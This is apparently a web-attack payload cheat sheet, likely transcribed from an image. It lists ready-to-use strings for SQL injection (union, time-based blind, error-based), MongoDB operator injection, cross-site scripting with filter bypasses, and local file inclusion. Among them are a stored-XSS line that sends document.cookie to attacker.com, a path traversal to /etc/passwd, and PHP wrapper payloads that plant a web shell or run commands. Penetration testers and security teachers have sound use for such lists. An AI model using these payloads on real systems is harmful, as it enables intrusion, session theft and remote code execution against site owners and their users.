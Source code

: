 #### 1. SQL Injection (SQLi)

**Union-Based:**
```sql
' UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables-- -
```

**Blind SQLi (Time-Based):**
```sql
' OR IF(SUBSTRING(database(),1,1)='a',SLEEP(5),0)-- -
```

**Error-Based:**
```sql
' AND EXTRACTVALUE(0x0a,CONCAT(0x0a,(SELECT database())))-- -
```

**NoSQL Injection (MongoDB):**
```javascript
{"$ne": null}
{"$regex": ".*"}
```

#### 2. Cross-Site Scripting (XSS)

**Stored XSS:**
```html
<script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
```

**Reflected XSS:**
```html
<svg onload=alert(1)>
```

**DOM XSS:**
```html
<img src=x onerror=alert(1)>
```

**Filter Bypasses:**
```html
<script>eval(String.fromCharCode(97,108,101,114,116,40,49,41))</script>
javascript:alert(1)
<iframe src="javascript:alert(1)">
```

#### 3. Local File Inclusion (LFI)

**Basic LFI:**
```
/etc/passwd
../../../../etc/passwd
```

**PHP Wrappers:**
```
?page=php://filter/convert.base64-encode/resource=index.php
?page=data://text/plain,<?php system($_GET['cmd']); ?>
?page=expect://whoami
```
